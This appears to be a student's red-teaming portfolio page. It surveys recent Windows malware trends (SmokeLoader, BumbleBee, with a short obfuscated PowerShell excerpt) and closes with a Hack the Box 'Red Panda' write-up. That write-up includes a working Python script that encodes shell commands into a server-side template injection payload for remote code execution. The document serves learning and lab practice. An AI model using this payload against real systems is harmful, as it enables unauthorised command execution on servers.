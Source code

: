 ```yaml
---
layout: default
title: LO1
---
```


# Learning outcome 1 - security specialist

1. [Trend research](#trend-research)
2. [Hands-on experience](#hands-on-experience)

# Trend research
The red teaming domain of cybersecurity industry is constantly influenced by new discoveries, reports and attacks that are happening in the world.
To try and create a snapshot of its current state, I will try to describe what trends are emerging, fading and blooming in the industry. 

## What is a trend?

To me, a trend is a generic term, which can describe the things that are on the mouths of people or the current preferences/commodidities that a 
certain group sticks to. However, in the cybersecurity context, trends can be defined as the directions in which the industry is developing,
new attack techniques, exploits on new (and old) technologies as well as the legal aspects of hacking. 

Therefore, I have decided to inquire into different hacker 'groups', malware aggregators and social platforms to see which things are receiving more
traction in the red teaming world.

## Windows exploitation

Windows is the most popular operating system in the world. Almost every PC runs it, and almost every company is using Windows ecosystem to manage their
assets and provide services for in-house needs. Moreover, if a company is has a web service, it most likely runs on Azure, which is also built on top of
Active directory and Windows Servers (*[Azure Stack](https://www.darrylvanderpeijl.com/azure-stack-the-fabric-layer/)*).

### Recent malware and vulnerability discoveries

In order to look for recent malware discoveries I have turned to websites such as *[VX-Underground](https://vx-underground.org)* and 
*[Malpedia](https://malpedia.caad.fkie.fraunhofer.de)*. Both websites are databases containing malware examples, source code and research papers
on different topics regarding red teaming (as well as sytem hardening). The websites are being often updated with new discoveries, therefore I 
have decided to use them as my sources for providing examples of recent Windows exploits.

1. Shellcode injection

	VX-Underground's twitter account often references security researchers which make interesting discoveries. 
	*[This tweet](https://twitter.com/vxunderground/status/156712442718730649e)* points to a security researcher which found numerous ways
	to execute shellcode in C# and in C using native Windows dlls - *[\_Wra7h/FlavorTown](https://github.com/Wra7h/FlavorTown)*

2. SmokeLoader
	
	Further browsing VX-Underground's twitter led me to a writeup on a SmokeLoader - a software used mainly for loading malware into infected 
	PC. According to Malpedia, this program has been used in a *[number of recent exploits](https://malpedia.caad.fkie.fraunhofer.de/details/win.smokeloader)*.
	*[A writeup](https://github.com/vc0RExor/Quick-Analysis/blob/main/SmokeLoader/SmokeLoader.md)* on SmokeLoader also explains that the malware
	has applied strong evasion techniques - it detects whether it is running in a virtual environment, is being debugged or statically analysed.
	Moreover the dropper uses a technique called *[process hollowing](https://github.com/m0n0ph1/Process-Hollowing)* to evade process-based surveillance.  

	Microsoft's security team found traces of SmokeLoader (alternatively called Dofoil) as early as in 2018. 
	In *[this post](https://www.microsoft.com/security/blog/2018/03/07/behavior-monitoring-combined-with-machine-learning-spoils-a-massive-dofoil-coin-mining-campaign/)*
	MS' security team explained that the dropper was used to propagate a cryptocurrency mining software through a poisoned peer-to-peer 
	application - PUA/PUP called MediaGet.

3. BumbleBee

	In march a new malware loader was discovered. The code was named 'BumbleBee', after an user agent string that the malware used to contact the command
	and control center. The discovery was made after a malware spread in a spear-phishing email campaign. The following graph shows an example of BumbleBee delivery

	![BumbleBee delivery graph](./assets/img/bumblebee_email.png)

	In late August, a new attempt to deliver malware was prevented. The detailed description can be found on Deep Instinct's 
	*[website](https://www.deepinstinct.com/blog/the-dark-side-of-bumblebee-malware-loader)*. The malware delivery chain forces user
	to extract a _.zip_ archive, thus the _.iso_ file is mounted on victim's machine. The disk image contains a _.dll_ with payload and 
	a _.lnk_ file which opens a PowerShell script. To ensure stealthy execution of the payload, the PowerShell script uses multiple evasion techniques, such as:

	* It breaks up command strings, to obfuscate code and evade static analysis. An excerpt from the malware PS script:

	```
		$maraDizo = "Get";  
		$maraDizo += "Current";
		$maraDizo += "Process";

		# I skipped over some code

		$cPr = [System.Diagnostics.Process]::$maraDizo;
	```

	* BumbleBee proactively checks for a virtual/sandboxed environment and tries to prevent analysis. It was found to use
	*[al-khaser](https://github.com/LordNoteworthy/al-khaser)* - an open-source project containing a plethora of different tools that check whether
	the malware is running in a VM, has a debugger attached, is being analysed etc.  

	According to Bleeping Computer, the malware is still in development and becomes more and more sophisticated with each update - for example, recent 
	versions, found in September, 
	*[load the payload directly into memory](https://www.bleepingcomputer.com/news/security/bumblebee-malware-adds-post-exploitation-tool-for-stealthy-infections/)*,
	reducing detection possibilities even more.

# Hands-on experience

To prove my proficiency in the practical part of red teaming, I have to provide proof of a hand-on experience with hacking. The techniques used are mentioned in the 
Mitre ATT&CK catalog.

## Hack the Box and SSTI - Red Panda writeup

As an exercise for the red-teaming specialisation, our teacher encouraged us to start using Hack the Box environment to learn hacking in practice. Because I do not have 
much CTF and hands-on hacking experience, I have decided to start with an 'easy' machine - Red Panda

![Redpanda main page](./assets/img/redpanda.png)

The website displays a search bar and some text. I tried searching different words, but the searched returned none. However, when I searched for an empty phrase, this
was the result:

![Greg panda](./assets/img/greg.png)

I tried sending multiple SQLI payloads, but the service seemed immune to database injection attacks. A colleague gave me a tip to try using Server Side Template Injecton.
Because I have never heard of this technique, I had to spend some time on learning it and adjusting it to the service. Finally, I found the proper characters to enclose 
my payload with - _*{ malicious code }_. I tried getting all environment variables from the host.

![Server's environment variables](./assets/img/get_env.png)

I tried testing multiple payloads from *[PayloadsAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)*,
and it turned out I can only execute commands on the host OS when encoding them into characters from integers. Therefore, I have decided to create a script which will
allow me to encode commands and send them to the vulnerable endpoint.

```python
import sys
import requests

from bs4 import BeautifulSoup as bs

# prepare payload
first = "*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec("
last = ").getInputStream())}"

mid = ""
command = sys.argv[1]

for i, c in enumerate(command):
    if i == 0:
        mid += f"T(java.lang.Character).toString({ord(c)})"
    else:
        mid += f".concat(T(java.lang.Character).toString({ord(c)}))"

payload = first + mid + last

# send post request to /search
ip = "10.10.11.170"
endpoint = "search"

res = requests.post(f"http://{ip}:8080/{endpoint}", data={'name': payload} )

soup = bs(res.content, "html.parser")
searched = soup.find("h2", {"class": "searched"})

print(searched.get_text())
```

The script worked and I managed to gain user access to the system. I was able to read the flag in user's home directory.

![User flag](./assets/img/user.png)

